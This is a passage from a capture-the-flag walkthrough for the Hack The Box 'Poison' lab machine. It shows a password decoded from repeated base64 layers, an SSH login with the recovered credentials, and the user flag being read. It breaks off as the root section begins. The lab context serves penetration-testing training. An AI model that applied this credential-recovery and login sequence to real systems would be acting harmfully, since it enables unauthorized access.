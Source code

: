 It looks like a base64 encoded string, lets decode it (a bunch of times).

--- snip ---
[root:/git/htb/poison]# echo "VmxaU1MySXlSa2hVYmxKcFVrWktTMVpyVm5OalZsSnlWR3hhVG1FelFuaFhha2sxVkd4R1ZVMUVi                        (master✱)
RVJhZWpBNVEyYzlQUW89Cg==" | base64 --decode
VlZSS2IyRkhUblJpUkZKS1ZrVnNjVlJyVGxaTmEzQnhXakk1VGxGVU1EbERaejA5Q2c9PQo=
[root:/git/htb/poison]# echo "VlZSS2IyRkhUblJpUkZKS1ZrVnNjVlJyVGxaTmEzQnhXakk1VGxGVU1EbERaejA5Q2c9PQo=" | base64 --decode         (master✱)
VVRKb2FHTnRiRFJKVkVscVRrTlZNa3BxWjI5TlFUMDlDZz09Cg==
[root:/git/htb/poison]# echo "VVRKb2FHTnRiRFJKVkVscVRrTlZNa3BxWjI5TlFUMDlDZz09Cg==" | base64 --decode                             (master✱)
UTJoaGNtbDRJVElqTkNVMkpqZ29NQT09Cg==
[root:/git/htb/poison]# echo "UTJoaGNtbDRJVElqTkNVMkpqZ29NQT09Cg==" | base64 --decode                                             (master✱)
Q2hhcml4ITIjNCU2JjgoMA==
[root:/git/htb/poison]# echo "Q2hhcml4ITIjNCU2JjgoMA==" | base64 --decode                                                         (master✱)
Charix!2#4%6&8(0


3. We got a password, maybe Charix is also the username. Lets try to SSH using creds charix:Charix!2#4%6&8(0

[root:/git/htb/poison]# ssh charix@poison.htb                                                                                     (master✱)
Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

--- snip ---

Edit /etc/motd to change this login announcement.
The default editor in FreeBSD is vi, which is efficient to use when you have
learned it, but somewhat user-unfriendly.  To use ee (an easier but less
powerful editor) instead, set the environment variable EDITOR to /usr/bin/ee

charix@Poison:~ % id
  uid=1001(charix) gid=1001(charix) groups=1001(charix)
charix@Poison:~ % cat user.txt
  eaacdfb2d141b72a589233063604209c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. In ~ we find the obvious file 'secret.zip', transfer the file to your local computer and start working on it.
